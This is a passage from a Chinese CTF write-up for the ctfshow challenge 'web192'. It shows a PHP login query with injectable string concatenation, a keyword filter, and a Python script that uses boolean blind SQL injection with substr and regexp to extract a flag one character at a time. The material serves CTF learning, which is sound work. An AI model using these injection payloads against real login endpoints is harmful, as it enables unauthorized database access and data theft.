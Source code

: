 ```python

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

## web192*

查询语句

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

增加了一些过滤

```
//TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

```python
# @Author:Y4tacker
import requests
import string

url = "http://e50b9d8e-c3f8-4ab6-b0a7-07c474082d06.challenge.ctf.show/api/"
flagstr=" _{}-" + string.ascii_lowercase + string.digits
flag = ''
for i in range(1,45):
    for j in flagstr:
        payload = f"admin' and if(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1)regexp('{j}'),1,2)='1"
        data = {
            'username': payload,
            'password': '1'
        }
        r = requests.post(url, data=data)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            if "}" == j:
                exit(0)
            break
```
